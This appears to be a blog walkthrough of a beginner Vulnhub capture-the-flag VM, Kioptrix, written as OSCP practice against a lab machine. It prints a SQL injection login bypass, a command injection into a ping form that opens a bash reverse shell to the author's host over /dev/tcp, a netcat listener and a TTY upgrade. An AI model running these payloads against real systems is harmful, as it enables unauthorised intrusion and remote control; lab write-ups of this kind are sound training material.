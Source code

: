 ```yaml
---
layout: post
title: Vulnhub - Kioptrix 1.1 Walkthrough
tags: [Hacking, Vulnhub, CTF]
---
```

Kioptrix 1.2 is a Boot to Root CTF available [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) on Vulnhub. It's difficulty is rated as Beginner. This VM is the second in the Kioprtix series and the second VM in my OSCP preparation series.  

The VM and my Kali instance are set up with NAT networking, so to discover the IP address of the VM I run netdiscover

![](/img/kioptrix1-2/netdiscover.png)

Once I obtain the IP, I then run a nmap scan and find the following ports: 22, 80, 111, 443, 631 and 3306. 
![](/img/kioptrix1-2/nmap1.png)
![](/img/kioptrix1-2/nmap2.png)

I visit the webpage hosted at port 80 and find a login panel 
![](/img/kioptrix1-2/login.png)

Having noted that there is a MySQL service running on port 3306 I attempted to manually conduct a SQLI attack with some common entires. I successfully get past the login panel by using the following

Username: admin
Password: 1' or '1'='1

I am taken to a page which has a form asking me to enter an IP address to ping. 
![](/img/kioptrix1-2/ping.png)

I enter the IP address of my kali box and another window loads which shows the result of my ping. I note that the output is that of running the ping command on a stardard linux box and I assume that this is very similar to the command injection in DVWA. To confirm this, I enter:

![](/img/kioptrix1-2/ping2.png)

{% highlight bash %}
192.168.5.129 && pwd
{% endhighlight %}

The results show that it accepts and prints my commands and confirms my assumptions
![](/img/kioptrix1-2/ping_result.png)

The next thing I do is to start a netcat listener using:
{% highlight bash %}
nc -lnvp 4444
{% endhighlight %}

I then enter the following into the Ping command form and wait to catch a shell. 
{% highlight bash %}
192.168.5.129 && bash -i >& /dev/tcp/192.168.5.129/4444 0>&1
{% endhighlight %}

![](/img/kioptrix1-2/shell.png)

This spawns a reverse shell as the user apache. I start my enumeration process and identify the kernel version as 2.6.9. I search through exploit-db and find a [Ring 0 Privilege Escalation](https://www.exploit-db.com/exploits/9542/) vulnerability that looks like it will work. I download the code and transfer it to the VM. I review the code and then compile as per the instructions. When I go to execute, I recieve an error 'no job control in this shell'. This means I do not have a full tty shell and I need to upgrade. I upgrade by using: 

{% highlight bash %}
python -c 'import pty; pty.spawn("/bin/sh")'
{% endhighlight %}

![](/img/kioptrix1-2/root.png)

The exploit runs and I confirm that I am root. I hunt around again in the mail folders, but there doesn't seem to be an hidden message in this VM - getting root is enough!
